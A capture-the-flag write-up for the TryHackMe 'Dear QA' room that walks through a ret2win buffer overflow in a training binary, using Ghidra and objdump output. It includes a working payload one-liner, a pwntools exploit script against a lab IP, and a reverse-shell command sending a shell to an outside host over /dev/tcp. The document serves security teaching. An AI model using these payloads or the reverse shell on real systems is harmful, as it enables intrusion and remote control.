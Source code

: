 ```yaml
---
layout: post
title:  "Dear QA"
categories: [tryhackme]
tags: [linux,elf,BOF,ghidra,objdump]
---
```


You can find this machine here : https://tryhackme.com/room/dearqa

### Understanding the `DearQA.DearQA` binary

The `segmentation fault` means that the software has attempted to access a restricted area of memory.
This means that maybe there is a buffer overflow vulnerability

![image]( /assets/img/dearqa/1.PNG)

### Analyzing the `DearQA.DearQA` in Ghidra 

### Main Function

![image]( /assets/img/dearqa/2.PNG)

```c

undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What's your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

### Vuln Function

![image]( /assets/img/dearqa/3.PNG)

```c

void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

- The scanf is vulnerable to buffer overflow
- We know that the buffer size is 32 bytes, let's exploit it
- Also, we found the vuln function, our goal is to jump from the scanf to the vuln function
- This is possible by using the buffer overflow attack and call the address of the vuln function

### Finding the addresses using the objdump

```bash
objdump -d ./DearQA.DearQA
```

- main

```assembly
00000000004006c3 <main>:
  4006c3:       55                      push   %rbp
  4006c4:       48 89 e5                mov    %rsp,%rbp
  4006c7:       48 83 ec 20             sub    $0x20,%rsp
  4006cb:       bf 03 08 40 00          mov    $0x400803,%edi
  4006d0:       e8 4b fe ff ff          call   400520 <puts@plt>
  4006d5:       bf 18 08 40 00          mov    $0x400818,%edi
  4006da:       e8 41 fe ff ff          call   400520 <puts@plt>
  4006df:       bf 3e 08 40 00          mov    $0x40083e,%edi
  4006e4:       b8 00 00 00 00          mov    $0x0,%eax
  4006e9:       e8 42 fe ff ff          call   400530 <printf@plt>
  4006ee:       48 8b 05 1b 05 20 00    mov    0x20051b(%rip),%rax
  4006f5:       48 89 c7                mov    %rax,%rdi
  4006f8:       e8 73 fe ff ff          call   400570 <fflush@plt>
  4006fd:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400701:       48 89 c6                mov    %rax,%rsi
  400704:       bf 51 08 40 00          mov    $0x400851,%edi
  400709:       b8 00 00 00 00          mov    $0x0,%eax
  40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
  400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400717:       48 89 c6                mov    %rax,%rsi
  40071a:       bf 54 08 40 00          mov    $0x400854,%edi
  40071f:       b8 00 00 00 00          mov    $0x0,%eax
  400724:       e8 07 fe ff ff          call   400530 <printf@plt>
  400729:       b8 00 00 00 00          mov    $0x0,%eax
  40072e:       c9                      leave  
  40072f:       c3                      ret    
```


- The hex value `0x20` is 32 in decimal 

![image]( /assets/img/dearqa/4.PNG)

- So the following assembly is the same with this c language representation : `undefined local_28 [32];`

```bash
4006c7:       48 83 ec 20             sub    $0x20,%rsp
```

- After that the scanf uses the defined buffer size to read the user input
- So the following assembly is the same with this c language representation : `__isoc99_scanf(&DAT_00400851,local_28);`

```bash
40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
```

- vuln

```assembly

0000000000400686 <vuln>:
  400686:       55                      push   %rbp
  400687:       48 89 e5                mov    %rsp,%rbp
  40068a:       bf b8 07 40 00          mov    $0x4007b8,%edi
  40068f:       e8 8c fe ff ff          call   400520 <puts@plt>
  400694:       bf d0 07 40 00          mov    $0x4007d0,%edi
  400699:       e8 82 fe ff ff          call   400520 <puts@plt>
  40069e:       48 8b 05 6b 05 20 00    mov    0x20056b(%rip),%rax
  4006a5:       48 89 c7                mov    %rax,%rdi
  4006a8:       e8 c3 fe ff ff          call   400570 <fflush@plt>
  4006ad:       ba 00 00 00 00          mov    $0x0,%edx
  4006b2:       be 00 00 00 00          mov    $0x0,%esi
  4006b7:       bf f9 07 40 00          mov    $0x4007f9,%edi
  4006bc:       e8 8f fe ff ff          call   400550 <execve@plt>
  4006c1:       5d                      pop    %rbp
  4006c2:       c3                      ret
```

- The address of `vuln` is 00400686 in hex.

```bash
0000000000400686 <vuln>:
```

### Local exploitation

The little endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\x00`

### Explain the payload

1. "A"*32 to reach the maximum buffer capacity
2. "B"*8 to reach the RSP and put the address of the `vuln` function
3. The 

```bash
ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA
```

![image]( /assets/img/dearqa/5.PNG)

### Remote Exploitation

```bash
pip3 install pwntools
```

- final script

```python
from multiprocessing import context
from pwn import *


con = remote('10.10.115.156', 5700)

payload  = 'A'*32
payload += 'B'*8
payload += '\x86\x06\x40\x00\x00\x00\x00\x00'

con.recvuntil("What's your name: ")
con.sendline(payload)
con.interactive()
```

- in action & spawn revershe shell

```bash
python3 dearqa.py
sh -i >& /dev/tcp/10.18.45.56/4444 0>&1
```

![image]( /assets/img/dearqa/6.PNG)



